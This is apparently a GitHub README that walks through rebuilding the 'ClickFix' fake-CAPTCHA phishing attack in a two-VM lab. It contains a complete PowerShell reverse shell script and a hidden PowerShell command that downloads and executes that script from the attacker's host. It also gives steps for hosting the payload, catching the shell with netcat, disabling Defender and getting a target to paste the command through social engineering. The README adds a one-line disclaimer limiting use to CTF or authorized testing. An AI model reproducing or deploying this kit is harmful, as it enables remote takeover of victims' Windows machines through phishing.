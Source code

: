 # CAPTCHA-and-Reverse-Shell
![Screenshot 2024-09-15 145147](https://github.com/user-attachments/assets/ae6fdcaf-f6e6-4ce5-8c02-967fe34965b8)

For this project, you will need a Linux VM and a Windows VM. I edited the script from [John Hammond ReCAPTCHA Phish](https://github.com/JohnHammond/recaptcha-phish) .

On [Twitter](https://x.com/_JohnHammond/status/1834292759320297534), these are called "[ClickFix](https://x.com/ex_raritas/status/1834399472371016084)", or [Emmenhtal](https://x.com/SquiblydooBlog/status/1834292295224475648), used in [LummaStealer](https://malpedia.caad.fkie.fraunhofer.de/details/win.lumma) campaigns observed by [Unit42](https://x.com/Unit42_Intel/status/1829178013423992948), [Orange Cyberdefense](https://www.orangecyberdefense.com/global/blog/cert-news/emmenhtal-a-little-known-loader-distributing-commodity-infostealers-worldwide), [Huntress](https://www.huntress.com/), and others.

Attack Vector: **Copy and Paste**

# **Prepare Your Files**

You need two key files:

1. **`index.html`**: Your CAPTCHA-like interface. (JH Github)
2. **`reverse-shell.ps1`**: The PowerShell reverse shell script.

![Screenshot 2024-09-15 152432](https://github.com/user-attachments/assets/95ccb007-db1e-4892-af2f-1cc5c5dff55c)

#### **`reverse-shell.ps1` File**:

`# PowerShell Reverse Shell Script $client = New-Object System.Net.Sockets.TcpClient('<YOUR_VM_IP>', 4444); $stream = $client.GetStream(); [byte[]]$buffer = 0..65535|%{0}; while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {     $data = (New-Object Text.UTF8Encoding).GetString($buffer, 0, $i);     $result = (iex $data 2>&1 | Out-String);     $send = ([text.encoding]::UTF8).GetBytes($result);     $stream.Write($send, 0, $send.Length); } $client.Close();`

![Screenshot 2024-09-15 145107](https://github.com/user-attachments/assets/b08ddfa8-09bb-4f44-b6dc-f1f20e4888e2)


**Edit index.html to launch reverse shell payload (JH Github)**

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<YOUR_VM_IP>:8080/reverse-shell.ps1')"`;

![Screenshot 2024-09-15 144910](https://github.com/user-attachments/assets/4997e25c-fd35-4732-a97d-1c395a74bedc)


### 3. **Host Files Using Python’s Built-In HTTP Server**

1. **Install Python** (if not already installed):
    
    Most Linux distributions come with Python pre-installed. Check by running:
    
    `python3 --version`
    
    If not installed, you can install it using:
    
    `sudo apt update sudo apt install python3`
    
2. **Prepare Your Directory**:
    
    Move to the directory where your `index.html` and `reverse-shell.ps1` files are located.
    
    `cd /path/to/your/files`
    
3. **Start the Python HTTP Server**:
    
    Use Python’s built-in HTTP server to host your files. By default, it listens on port 8000, but you can choose another port if needed.
    
    `python3 -m http.server 8080`
    
4. **Verify Hosting**:
    
    Open a web browser and navigate to `http://<YOUR_VM_IP>:8080`. You should see your CAPTCHA-like page. The PowerShell script can be accessed at `http://<YOUR_VM_IP>:8080/reverse-shell.ps1`.
    
![Screenshot 2024-09-15 145729](https://github.com/user-attachments/assets/aa8c1ae0-9e0b-45fc-b19f-323f4f1d29ff)



### 4. **Testing**

1. **Open Your Browser**: Visit `http://<YOUR_VM_IP>:8080` to see your hosted CAPTCHA page.
    
2. **Verify Access**: Make sure that both the CAPTCHA page and the PowerShell script are accessible

### 5. **Set Up a Listener on Your Linux VM**

To catch the reverse shell connection from the target machine, you need to set up a listener on your Linux VM. You can use Netcat (nc) for this purpose.

1. **Install Netcat** (if not already installed):
    
    `sudo apt update sudo apt install netcat`
    
2. **Start the Netcat Listener**:
    
    Open a terminal and start a Netcat listener on the port you specified in your reverse shell script (e.g., 4444). Make sure you replace `<YOUR_VM_IP>` in your PowerShell script with your actual VM IP.
    
    `nc -lvnp 4444`
    
    This command listens on port 4444 and will display any incoming connections.
    

### 6. **Deploy the Payload (DISABLE DEFENDER)**

To get the reverse shell to connect back to your machine, you need the target to run the PowerShell command that you copied to their clipboard. Here’s a breakdown:

1. **Ensure the Target Executes the Payload**:
    
    When the target pastes and runs the command from their clipboard, it will download and execute the PowerShell script from your server. Ensure that you’ve communicated with the target in a way that gets them to execute this command. This might be done by social engineering or another method, but always remember that this should only be done in a legal context, such as a Capture The Flag (CTF) competition or with proper authorization.
    
2. **Verify the Connection**:
    
    Once the target executes the payload, you should see a connection in your Netcat terminal. You can then interact with the reverse shell by typing commands directly into the Netcat session.

   ![Screenshot 2024-09-15 145203](https://github.com/user-attachments/assets/963e1c96-e278-4967-b71a-00c0fd20c92a)

